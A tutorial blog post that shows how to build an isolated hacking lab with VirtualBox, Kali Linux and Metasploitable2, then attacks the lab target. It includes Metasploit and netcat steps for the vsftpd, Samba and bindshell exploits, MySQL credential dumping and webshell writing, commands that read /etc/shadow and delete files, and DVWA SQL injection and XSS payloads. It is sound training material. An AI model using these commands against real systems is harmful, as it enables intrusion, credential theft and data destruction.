





How to Set Up a Personal Hacking Lab with VirtualBox, Kali Linux & Metasploitable2 (Free)
Keywords: ethical hacking lab setup | VirtualBox Kali Linux Metasploitable2 | hacking lab for beginners | free penetration testing lab | Metasploitable2 exploit practice
So you want to learn ethical hacking — but where do you actually practice? You can't test exploits on real websites or networks without breaking the law. The solution every professional uses is a personal hacking lab: an isolated, fully offline environment where you can attack intentionally vulnerable systems legally and safely.

In this step-by-step guide, you will set up a free, production-grade ethical hacking lab on your own computer using VirtualBox, Kali Linux, and Metasploitable2 — the same tools used by real penetration testers, CEH candidates, and OSCP aspirants.
Introduction
⚠️ Legal Disclaimer: Everything in this tutorial runs inside an isolated virtual network on your own machine. You are attacking intentionally vulnerable VMs that you own. This is 100% legal. Never use these techniques on systems, networks, or devices you do not own or have explicit written permission to test. Unauthorised access is a criminal offence under India's IT Act 2000, the US CFAA, and equivalent laws worldwide.
What You Will Build
By the end of this tutorial, your setup will look like this:

What You Will Learn
By completing this tutorial you will be able to:
- Install and configure VirtualBox on Windows, macOS, or Linux.
- Import a Kali Linux VM without installing from ISO
- Set up Metasploitable2 as your permanent practice target.
- Build an isolated Host-Only network between attacker and target.
- Run a full Nmap reconnaissance scan and read the results.
- Exploit the vsftpd 2.3.4 backdoor (CVE-2011-2523) to get root shell.
- Practice Samba, MySQL, and bindshell exploits.
- Access DVWA for web application vulnerability practice.
- Write a professional penetration test report for your portfolio.
Your Lab vs Other Platforms
| Feature | This Lab | TryHackMe | HackTheBox |
|---|---|---|---|
| Cost | ₹0 forever | ₹800–2,000/month | Paid tiers |
| Internet required | Fully offline | Yes | Yes |
| Legal risk | Zero | Zero | Zero |
| Customisable | Fully | Limited | Limited |
| Real OS + CVEs | Yes | Yes | Yes |
| Best for | First setup + real exploits | Guided challenges | Advanced labs |
System Requirements
| Spec | Minimum | Recommended |
|---|---|---|
| RAM | 8 GB | 16 GB |
| Storage | 40 GB free | 60 GB SSD |
| CPU | Dual-core + VT-x/AMD-V | Quad-core i5/Ryzen 5 |
| OS | Windows 10, macOS 12, Ubuntu 20.04 | Windows 11 / macOS 14 |
Downloads — Get Everything Before Starting
Download all files first to avoid interruptions during setup:
| File | Source | Size | Direct Link |
|---|---|---|---|
| VirtualBox 7.x | virtualbox.org | ~100 MB | virtualbox.org/wiki/Downloads |
| VirtualBox Extension Pack | virtualbox.org | ~50 MB | Same page as above |
| Kali Linux VirtualBox Image | kali.org | ~3 GB | kali.org/get-kali/#kali-virtual-machines |
| Metasploitable2 ZIP | SourceForge | ~900 MB | sourceforge.net/projects/metasploitable |
For Kali: Download the "VirtualBox" image (pre-built .ova or .7z) NOT the ISO — the VM image saves 30 minutes of installation
For Metasploitable2: Download the .zip ⟶ contains a .vmdk disk file
Download Files — Purpose Explained
1. VirtualBox 7.x — The Hypervisor (Foundation)
What it is:
VirtualBox is a Type 2 hypervisor — software that lets your physical computer run multiple operating systems simultaneously inside isolated containers called Virtual Machines (VMs). Think of it as a "computer inside your computer."
Why you need it:
This is the core engine that powers your entire hacking lab. Without VirtualBox, you have no way to run Kali Linux or Metasploitable2 — both are VMs that exist only inside VirtualBox. It creates the isolated sandbox where all your hacking practice happens safely.
What happens if you skip it:
Nothing else in this project works. Kali and Metasploitable2 cannot run without a hypervisor.
Free for: Personal use on Windows, macOS, and Linux.
2. VirtualBox Extension Pack — Feature Unlocker
What it is:
A proprietary add-on that unlocks advanced hardware features not included in the base VirtualBox installation.redresscompliance+1.
Specific features it adds:
| Feature | Why it matters for your lab |
|---|---|
| USB 2.0 / 3.0 support | Connect USB drives, adapters, WiFi dongles to your Kali VM |
| VirtualBox RDP server | Remotely access your VM desktop from another machine |
| Webcam passthrough | Use your physical webcam inside the VM |
| Disk encryption | Encrypt VM disk files for security |
| NVMe storage controller | Faster SSD-level disk I/O inside VMs |
| Intel PXE Boot ROM | Boot VMs over a network (useful for advanced labs) |
Why you need it for this lab:
The base VirtualBox only supports USB 1.1 (slow, limited). The Extension Pack upgrades this to USB 2.0/3.0, which is essential if you want to attach a WiFi adapter or USB drive to Kali Linux for wireless pentesting exercises.backup+1
What happens if you skip it:
The lab still works for this tutorial. However, you will be limited to USB 1.1 only and cannot use advanced features like wireless adapter passthrough for WiFi hacking labs later.
License note::
Free for personal/educational use under Oracle's PUEL license. Not free for commercial enterprise use.[redresscompliance].
3. Kali Linux VirtualBox Image — The Attacker Machine
What it is:
Kali Linux is a Debian-based Linux distribution purpose-built for penetration testing and ethical hacking. It comes pre-installed with 600+ security tools including Nmap, Metasploit, Wireshark, Burp Suite, Hydra, Aircrack-ng, and more. The VirtualBox Image (.ova or .7z) is a pre-configured, ready-to-import VM — the OS is already installed inside it.reddit+1
Why you need it:
This is your attacker machine — the system you control to run all scans and exploits against Metasploitable2. All the commands in this tutorial (nmap, msfconsole, nc) run from inside this VM.
VirtualBox Image vs ISO — what's the difference?
| Type | What it is | Time to ready |
|---|---|---|
| VirtualBox Image (use this) | Pre-built VM — just import and boot | ~5 minutes |
| ISO | Raw installer — you manually install the OS like a new computer | ~30–45 minutes |
The VirtualBox Image is recommended for beginners — it skips the full OS installation and gets you hacking faster.sitepoint+1.
What happens if you skip it:
You have no attacker machine. You cannot run any of the tools, exploits, or scans in the tutorial.
4. Metasploitable2 ZIP — The Intentional Victim
What it is:
Metasploitable2 is an intentionally vulnerable Ubuntu Linux server VM created by Rapid7 (makers of Metasploit) specifically as a safe, legal target for practising attacks. It is deliberately misconfigured and runs outdated, unpatched software with known CVEs.[docs.rapid7].
Pre-installed vulnerable services:
| Service | Port | Vulnerability |
|---|---|---|
| vsftpd 2.3.4 | 21 | Backdoor — CVE-2011-2523 |
| Samba 3.x | 445 | RCE — CVE-2007-2447 |
| MySQL 5.0 | 3306 | No root password |
| UnrealIRCd | 6667 | Backdoor |
| Apache Tomcat | 8180 | Default credentials |
| DVWA | 80 | Web app vulnerabilities |
| Open bindshell | 1524 | Literal open root shell |
Why you need it:
This is your target machine — the system you legally attack and exploit. Without it, you have nothing to practice on. It replaces the need to hack real systems (which is illegal) with a safe, identical simulation.geeksforgeeks+1.
One-Line Summary for Each File
| File | One-line purpose |
|---|---|
| VirtualBox 7.x | The engine that runs both virtual machines on your computer |
| Extension Pack | Unlocks USB 2.0/3.0, RDP, and advanced hardware features for VMs |
| Kali Linux Image | Your pre-built attacker machine with 600+ hacking tools ready to use |
| Metasploitable2 ZIP | Your legal, intentionally broken target server to practise real exploits on |
Step 1 — Install VirtualBox
Windows
- Run the downloaded VirtualBox-7.x.x-Win.exe.
- Click "Next" through all screens (defaults are fine).
- When prompted about network interfaces ⟶ click "Yes" (Briefly disconnects your internet for 5 seconds — normal).
- Click "Install" ⟶ "Finish".
- VirtualBox opens automatically.
macOS
- Open VirtualBox-7.x.x-macOS.dmge.
- Double-click VirtualBox.pkg ⟶ Follow installer.
- System Preferences ⟶ Privacy & Security ⟶ Allow software from Oracle America (VirtualBox kernel extension).
- Click "Install" ⟶ "Finish".
- Reboot if prompted.
Ubuntu/Debian Linux
Bash
sudo apt update
sudo apt install -y wget gnupg
wget -q https://www.virtualbox.org/download/oracle_vbox_2016.asc \
-O- | sudo gpg --dearmor -o /usr/share/keyrings/oracle-virtualbox.gpg
echo "deb [arch=amd64 signed-by=/usr/share/keyrings/oracle-virtualbox.gpg] \
https://download.virtualbox.org/virtualbox/debian \
$(lsb_release -cs) contrib" \
| sudo tee /etc/apt/sources.list.d/virtualbox.list
sudo apt update
sudo apt install -y virtualbox-7.0
# Add your user to vboxusers group
sudo usermod -aG vboxusers $USER
newgrp vboxusers
Install VirtualBox Extension Pack (all platforms)
- VirtualBox Manager ⟶ File ⟶ Tools ⟶ Extension Pack Manager (or: File ⟶ Preferences ⟶ Extensions on older versions).
- Click the green "+" button.
- Browse to downloaded Oracle_VirtualBox_Extension_Pack-7.x.x.vbox-extpack.
- Click "Open" ⟶ "Install" ⟶ Accept license ⟶ "OK"
Extension Pack adds: USB 2.0/3.0, RDP, encryption support.
Step 2 — Import Kali Linux VM
Kali provides a pre-built VirtualBox image — no OS installation needed:
Extract and Import
1. Extract the downloaded Kali .7z file: Windows: Use 7-Zip (free at 7-zip.org) macOS: Double-click ⟶ built-in extraction Linux: 7z x kali-linux-2024.x-virtualbox-amd64.7z 2. In VirtualBox ⟶ File ⟶ Import Appliance (Ctrl+I) 3. Browse to the extracted .ova file 4. Click "Next" ⟶ Review settings: ┌─────────────────────────────────────────┐ │ Name : Kali Linux │ │ RAM : 2048 MB (change to 2048–4096) │ │ CPUs : 2 │ │ Disk : 80 GB (pre-configured) │ └─────────────────────────────────────────┘ 5. Click "Finish" ⟶ Import takes 3–5 minutes
Configure Kali VM Settings (before first boot)
1. Select "Kali Linux" in VirtualBox ⟶ Click "Settings" (gear icon)
2. System ⟶ Motherboard:
Base Memory: Set to 2048 MB minimum (4096 MB recommended)
Boot Order: Hard Disk first
3. System ⟶ Processor:
Processors: 2 CPUs
Enable PAE/NX
4. Display ⟶ Screen:
Video Memory: 128 MB
Graphics Controller: VMSVGA
Enable 3D Acceleration: (optional)
5. Network ⟶ Adapter 1:
Leave as NAT for now — we configure Host-Only in Step 4
6. Click "OK"
First Boot — Kali Login
1. Select Kali Linux ⟶ Click "Start" (green arrow)
2. Wait for GNOME desktop to load (~60 seconds first boot)
Default credentials:
Username: kali
Password: kali
3. Open Terminal (right-click desktop ⟶ "Open Terminal" OR
use the terminal icon in the taskbar)
4. Update Kali immediately
Bash
# Inside Kali VM terminal
sudo apt update && sudo apt full-upgrade -y
# This takes 10–20 minutes — do it once, never skip it
# Reboot after upgrade
sudo reboot
Step 3 — Import Metasploitable2
Metasploitable2 is an intentionally vulnerable Ubuntu server built by Rapid7 specifically for practising exploits.
Default login: msfadmin / msfadmin Vulnerabilities included: - vsftpd 2.3.4 (FTP backdoor) - UnrealIRCd 3.2.8.1 (IRC backdoor) - Samba 3.x (usermap_script) - Apache Tomcat (default credentials) - MySQL (root with no password) - DVWA (Damn Vulnerable Web App) - Mutillidae (web app vulnerabilities) - 20+ more services intentionally misconfigured
Import the VMDK
1. Extract Metasploitable2-Linux.zip ⟶ you get a folder with .vmdk file
2. VirtualBox ⟶ Machine ⟶ New (Ctrl+N)
3. Configure the new VM:
┌──────────────────────────────────────────────────────┐
│ Name : Metasploitable2 │
│ Machine Folder : (default or your preferred path) │
│ Type : Linux │
│ Version : Ubuntu (64-bit) │
└──────────────────────────────────────────────────────┘
Click "Next"
4. Memory:
RAM: 1024 MB (1 GB is enough — it's a server, no GUI)
Click "Next"
5. Hard Disk:
Select "Use an existing virtual hard disk file"
Click the folder icon ⟶ "Add"
Browse to Metasploitable2-Linux/Metasploitable.vmdk
Select it ⟶ "Choose" ⟶ "Create"
6. VM is created. Now configure settings:
Select Metasploitable2 ⟶ Settings
System ⟶ Motherboard:
Base Memory: 1024 MB
Boot Order: Hard Disk (uncheck Floppy, Optical)
Network ⟶ Adapter 1:
Leave as NAT for now — configure in Step 4
Audio: Disable (server doesn't need it)
Click "OK"
Step 4 — Configure Host-Only Network (Isolated Lab)
This is the most important step. A Host-Only network creates a private subnet that:
- Allows Kali and Metasploitable2 to talk to each othe.
- Blocks both VMs from reaching the real internet.
- Blocks internet from reaching your VMs.

Create the Host-Only Network
VirtualBox ⟶ File ⟶ Tools ⟶ Network Manager
(Older versions: File ⟶ Host Network Manager)
Click "Create" (green + icon)
A new network appears: "vboxnet0" (Linux/macOS) or
"VirtualBox Host-Only Ethernet Adapter" (Windows)
Configure it:
┌──────────────────────────────────────────────────┐
│ IPv4 Address : 192.168.56.1 │
│ IPv4 Mask : 255.255.255.0 (/24) │
│ IPv6 : (leave blank) │
└──────────────────────────────────────────────────┘
DHCP Server tab:
Enable Server
Server Address : 192.168.56.101
Server Mask : 255.255.255.0
Lower Address : 192.168.56.102
Upper Address : 192.168.56.200
Click "Apply" ⟶ "Close"
Attach Both VMs to Host-Only Network
For Kali Linux:
Select Kali Linux VM ⟶ Settings ⟶ Network
Adapter 1:
Enable Network Adapter
Attached to: Host-only Adapter
Name: vboxnet0 (Linux/macOS)
or "VirtualBox Host-Only Ethernet Adapter" (Windows)
Click "OK"
For Metasploitable2:
Select Metasploitable2 VM ⟶ Settings ⟶ Network Adapter 1: Enable Network Adapter Attached to: Host-only Adapter Name: vboxnet0 (same network as Kali) Click "OK"
Step 5 — Verify Network Connectivity
Start both VMs and confirm they can see each other.
Get Metasploitable2's IP
Start Metasploitable2 VM ⟶ Wait for login prompt Login: Username: msfadmin Password: msfadmin Run:
Bash
# Inside Metasploitable2
ifconfig eth0
# Look for: inet addr: 192.168.56.xxx
# Note this IP — you will use it throughout the tutorial
hostname -I
# Simpler alternative
Verify from Kali
Bash
# Inside Kali Linux terminal
# First find your own IP
ip addr show eth0
# Your Kali IP: 192.168.56.101 (or similar)
# Ping Metasploitable2 (replace with actual IP)
ping -c 4 192.168.56.102
# Expected output:
# 64 bytes from 192.168.56.102: icmp_seq=1 ttl=64 time=0.5 ms
# 64 bytes from 192.168.56.102: icmp_seq=2 ttl=64 time=0.4 ms
# 4 packets transmitted, 4 received, 0% packet loss
# Confirm NO internet access from Metasploitable2 (isolation check)
ping -c 2 8.8.8.8
# Expected: Network is unreachable (confirms isolation)
If ping succeeds between VMs but fails to internet — your lab is correctly isolated and ready.
Step 6 — Reconnaissance: Nmap Port Scan
Real penetration testing always starts with reconnaissance — discovering what's running on the target before touching any exploit.

Bash
# ── Basic scan: find open ports ────────────────────────────
nmap 192.168.56.102
# ── Service version detection (-sV): identifies exact software ─
nmap -sV 192.168.56.102
# ── Aggressive scan (-A): OS detection + scripts + traceroute ──
nmap -A 192.168.56.102
# ── Full port scan (all 65535 ports) ───────────────────────
nmap -p- 192.168.56.102
# ── Save scan results to a file ────────────────────────────
nmap -sV -oN metasploitable2_scan.txt 192.168.56.102
cat metasploitable2_scan.txt
Expected nmap -sV Output
PORT STATE SERVICE VERSION 21/tcp open ftp vsftpd 2.3.4 ← Backdoor vulnerability 22/tcp open ssh OpenSSH 4.7p1 23/tcp open telnet Linux telnetd 25/tcp open smtp Postfix smtpd 53/tcp open domain ISC BIND 9.4.2 80/tcp open http Apache httpd 2.2.8 139/tcp open netbios-ssn Samba 3.x ← Another classic exploit 445/tcp open netbios-ssn Samba 3.x 512/tcp open exec netkit-rsh 513/tcp open login 514/tcp open tcpwrapped 1099/tcp open java-rmi GNU Classpath grmiregistry 1524/tcp open bindshell Metasploitable root shell ← Open root shell! 2049/tcp open nfs 2-4 (RPC #100003) 3306/tcp open mysql MySQL 5.0.51a ← No root password 5432/tcp open postgresql PostgreSQL DB 8.3.0 6667/tcp open irc UnrealIRCd ← IRC backdoor 8009/tcp open ajp13 Apache Jserv 8180/tcp open http Apache Tomcat/Coyote
This single scan reveals dozens of known vulnerabilities — exactly what Metasploitable2 is designed to expose.
Step 7 — First Exploit: vsftpd 2.3.4 Backdoor
The vsftpd 2.3.4 backdoor is the classic first exploit for anyone
learning Metasploit. In 2011, a
malicious backdoor was
inserted into the vsftpd source code — when a username containing :)
is sent to port 21, it
opens a root shell on port
6200.

Understanding the vulnerability first
Bash
# ── Manual exploitation (understand what's happening) ─────
# The backdoor triggers when you send "USER :)" to port 21
# It then opens a root shell listener on port 6200
# Try it manually with netcat (educational — do this first!)
nc 192.168.56.102 21
# You see: 220 (vsFTPd 2.3.4)
USER smiley:)
# Press Enter — this triggers the backdoor
PASS anything
# Press Enter
# Open another Kali terminal and connect to port 6200
nc 192.168.56.102 6200
# If successful you see a shell — type:
id
# Expected: uid=0(root) gid=0(root) groups=0(root)
# You have root access!
Exploit with Metasploit (the professional way)
Bash
# ── Start Metasploit Framework ─────────────────────────────
sudo msfconsole
# Initialise database (first time only — takes ~60 seconds)
# You'll see the ASCII art banner + msf6 prompt
# ── Search for vsftpd exploit ──────────────────────────────
msf6 > search vsftpd
# Expected output:
# Matching Modules
# ================
# # Name Disclosure Date Rank
# - ---- --------------- ----
# 0 exploit/unix/ftp/vsftpd_234_backdoor 2011-07-03 excellent
# ── Select the exploit module ──────────────────────────────
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
# ── View required options ──────────────────────────────────
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
# Required Options:
# RHOSTS — remote host (target IP)
# RPORT — remote port (default 21)
# ── Set the target IP ──────────────────────────────────────
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.56.102
# ── Run the exploit ────────────────────────────────────────
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
# Expected output:
# [*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
# [*] 192.168.56.102:21 - USER: 331 Please specify the password.
# [+] 192.168.56.102:21 - Backdoor service has been spawned, handling...
# [+] 192.168.56.102:21 - UID: uid=0(root) gid=0(root)
# [*] Found shell.
# [*] Command shell session 1 opened
# ── You now have a root shell on Metasploitable2! ──────────
id
# uid=0(root) gid=0(root) groups=0(root)
uname -a
# Linux metasploitable 2.6.24 #1 SMP ... i686 GNU/Linux
whoami
# root
cat /etc/passwd
# Shows all users on the system
ls /home
# msfadmin user service ...
# ── Exit the session ───────────────────────────────────────
exit
# ── List all open sessions ─────────────────────────────────
msf6 > sessions -l
# ── Interact with a session ────────────────────────────────
msf6 > sessions -i 1
Step 8 — Bonus Exploits to Practice
Now that your lab is running, here are 3 more exploits to practice next:
Exploit 2 — Samba usermap_script (Port 445)
CVE-2007-2447 | Rank: Excellent
What is Samba?
Samba is a service that lets Linux/Unix machines share files and printers with Windows computers over the network — just like Windows file sharing. Port 445 is the SMB (Server Message Block) port it uses.
What is the Vulnerability?
Samba versions 3.0.20 to 3.0.25rc3 had a flaw in how they handled usernames during login. When a username was passed to the system, Samba fed it directly into a shell command without sanitising it first. This means an attacker could inject extra shell commands inside the username field and the server would execute them as root.
Bash
msf6 > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 192.168.56.102
msf6 exploit(multi/samba/usermap_script) > run
# Result: root shell via SMB — CVE-2007-2447
Why It Works in One Line
The core flaw is unsanitised input — the username field was never cleaned before being used in a system call. This is the same class of bug as SQL injection, just at the OS command level.
Exploit 3 — MySQL with no root password (Port 3306)
No CVE needed — it's a misconfiguration
What is the Vulnerability?
MySQL was installed on Metasploitable2 with the root account having no password at all. Any machine on the network can log in as database root with zero authentication. This is not a software bug — it is a dangerous misconfiguration that is extremely common in real-world poorly maintained servers.
Bash
# Direct MySQL login — no password required
mysql -h 192.168.56.102 -u root
# Inside MySQL:
SHOW DATABASES;
# Lists all databases including sensitive ones
SELECT user, password FROM mysql.user;
# Dumps all MySQL credentials
-- Returns hashed passwords for all MySQL accounts
-- Read files from the server filesystem
LOAD DATA INFILE '/etc/passwd' INTO TABLE test;
-- Write a PHP webshell directly to web root
SELECT "
"
INTO OUTFILE '/var/www/shell.php';
-- Now visit http://192.168.56.102/shell.php?cmd=id in browser!
EXIT;
Attack Flow
Kali runs: mysql -h 192.168.56.102 -u root
↓
MySQL accepts — no password required
↓
Full database admin access
↓
Read all data + write webshell to disk
↓
Webshell = full OS command execution
Why This Is Critical
A database root account with no password gives an attacker not just all the data — but the
ability to write files to
disk using INTO OUTFILE, which turns a database misconfiguration into
full server compromise.
Exploit 4 — Port 1524 — Open Root Bindshell
No CVE, No exploit tool needed — it's a literal open door
What is a Bindshell?
A bindshell is a program that binds a shell (/bin/bash) to a network
port and waits for anyone to
connect. Whoever
connects gets a command shell — no username, no password, nothing. Metasploitable2 intentionally
runs one on port 1524
to demonstrate this catastrophic misconfiguration.
Bash
# Port 1524 is a literal open root shell — no exploit needed
nc 192.168.56.102 1524
# Immediate root shell:
id
# uid=0(root) gid=0(root)
whoami
# root
cat /etc/shadow # read all password hashes
rm -rf /tmp/* # delete files
useradd hacker # create new user
# This teaches why open bindshells are critical vulnerabilities
No Metasploit. No exploit code. No password. Just nc.
Why This Is the Most Dangerous of All Three
vsftpd backdoor ⟶ needs :) trigger + port 6200
Samba exploit ⟶ needs crafted SMB payload
MySQL no pass ⟶ needs mysql client
Port 1524 ⟶ needs only: nc IP 1524
That's it. Anyone. Anytime.
This is the equivalent of leaving your front door wide open with a sign that says "come in." It teaches the most important lesson in security: always audit every open port — not just the well-known ones.
Quick Comparison
| Exploit | Type | Difficulty | Root? | Lesson Taught |
|---|---|---|---|---|
| Samba usermap_script | Code injection via unsanitised input | Easy | Yes | Never pass user input to shell unfiltered |
| MySQL no root password | Misconfiguration | Trivial | DB root | Always set strong passwords on every account |
| Port 1524 bindshell | Open backdoor | Zero effort | Full OS root | Audit every open port — close what isn't needed |
Step 9 — Add DVWA (Portfolio Extension Target)
What is DVWA?
Damn Vulnerable Web Application (DVWA) is a deliberately broken PHP web application built for security students to practice attacking real web vulnerabilities in a safe, legal environment. It is already pre-installed on Metasploitable2 — no setup needed.
Damn Vulnerable Web Application (DVWA) is already installed on Metasploitable2 at port 80. Access it from Kali's browser:
How to Access
1. Open Firefox in Kali Linux 2. Go to → http://192.168.56.102/dvwa 3. Login: Username: admin Password: password
First time only — click "Create / Reset Database" on the setup page before logging in.
DVWA Security Levels
Before practising, set the difficulty inside DVWA:
DVWA → DVWA Security → Set Level
| Level | What it means | Start here? |
|---|---|---|
| Low | Zero protection — raw vulnerable code | Yes, start here |
| Medium | Basic filtering added — bypass it | After Low |
| High | Strong filtering — advanced bypass needed | After Medium |
| Impossible | Fully secure code — study how defence works | Last |
Always start at Low to understand the attack, then increase difficulty to learn how defences work.
Each Vulnerability — Simply Explained
- SQL Injection
- XSS — Cross-Site Scripting
- CSRF — Cross-Site Request Forgery
- File Inclusion (LFI / RFI)
- Command Injection
- Brute Force Login
What it is: The login form passes your input directly into a database query without checking it. You can manipulate the query to bypass login or dump all data.
Try this in the User ID field:
Sql
1' OR '1'='1
What happens: Instead of looking up user ID 1, the database runs:
Sql
SELECT * FROM users WHERE id='1' OR '1'='1'
Since '1'='1' is always true, it returns all users in the
database.
What it is: The web app displays your input back on the page without sanitising it. You can inject JavaScript that runs in the victim's browser.
Reflected XSS — try this in the name field:
xml
<script>alert('XSS')</script>
What happens: The browser executes your script — a popup appears. In real attacks this steals session cookies or redirects users to phishing pages.:
Stored XSS is worse — your script is saved in the database and fires for every user who views that page.
What it is: Tricks a logged-in user's browser into making an unwanted request (like changing their password) by visiting a malicious page — without the user knowing.
How it works:
Victim is logged into DVWA
↓
Attacker sends victim a link to evil.html
↓
evil.html silently submits a form to DVWA
↓
DVWA changes victim's password
↓
Victim has no idea it happened
